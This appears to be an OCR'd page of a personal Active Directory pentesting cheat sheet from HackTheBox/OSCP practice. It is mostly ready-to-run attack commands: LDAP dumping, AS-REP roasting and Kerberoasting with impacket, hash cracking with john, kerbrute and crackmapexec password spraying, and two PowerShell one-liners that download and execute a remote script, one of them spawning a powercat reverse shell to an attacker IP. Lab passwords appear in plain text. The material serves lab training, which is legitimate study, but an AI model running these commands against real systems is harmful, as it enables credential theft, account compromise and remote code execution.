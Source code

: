 ## Check ldapsearch
```bash
#ldapsearch
ldapsearch -x -H ldap://10.10.10.52 -b "dc=htb,dc=local"
ldapsearch -x -H ldap://$IP -D '' -w '' -b "DC=cascade,DC=local" > full_ldap_dump.txt
ldapsearch -h 10.10.10.182 -x -b "DC=cascade,DC=local" '(objectClass=person)' > ldap-people
ldapsearch -x -H ldap://$IP -s base | grep -i sAMAccountName:
ldapsearch -x -H ldap://$IP -s base | grep -i namingcontexts
ldapsearch -x -H ldap://$IP -s base | grep -i description
ldapsearch -H ldap://$IP -b "DC=BLACKFIELD,DC=local" -D 'support@blackfield.local' -w '#00^BlackKnight' | grep lockout

Search sth new and back to dig
```
## Check ldap with nmap and enum4linux
```bash
nmap -p 389 --script ldap-search 10.10.10.161
enum4linux 10.10.10.161 > enum4linux-results.txt
```

Retrieve domain users who do not have "Do not require Kerberos preauthentication" set and ask for their TGTs without knowing their passwords. <br/>
Obtain a password hash for user accounts that have an SPN (service principal name) as well:<br/>
```bash
#GetNPUsers.py
GetNPUsers.py htb.local/ -dc-ip 10.10.10.52
impacket-GetNPUsers 'cascade.local/' -usersfile users.txt -format hashcat -outputfile hashes.aspreroast -dc-ip $IP

#GetUserSPNs.py
impacket-GetUserSPNs -request -dc-ip 127.0.0.1 'sizzle.htb.local/amanda:Ashare1972' -save -outputfile GetUserSPNs.out

proxychains GetUserSPNs.py –request –dc-ip xx.x.x.xx
oscp.exam/xxxx –outputfile /tmp/hashes.kerberoast

imapacket-mssqlclient oscp.exam/xxx:xxxx@192.168.x.x –windows-auth
--> xp_cmdshell

john –format=krb5tgs –wordlist=~/rockyou.txt /tmp/hashes.kerberoast
```

## Kerbrute/CME/RCE/Check other common exploits
```bash
powershell -c iex( iwr http://10.10.14.9/shell.ps1 -UseBasicParsing )
IEX (New-Object System.Net.Webclient).DownloadString("http://MYIP/powercat.ps1");powercat -c MYIP -p 4444 -e powershell

#kerbrute
kerbrute -domain htb.local -users /usr/share/wordlists/names.txt -dc-ip 10.10.10.52

#crackmapexec
crackmapexec smb 10.10.10.52 -d htb.local -u htb.local/james -p /usr/share/seclists/Passwords/Leaked-Databases/rockyou-75.txt

goldenpac, zerologon, printnightmare, printspoofer, noPAC, Password Hash Synchronization, PrivExchange attack, Password Hash Synchronization (Microsoft Azure AD Sync)**
```
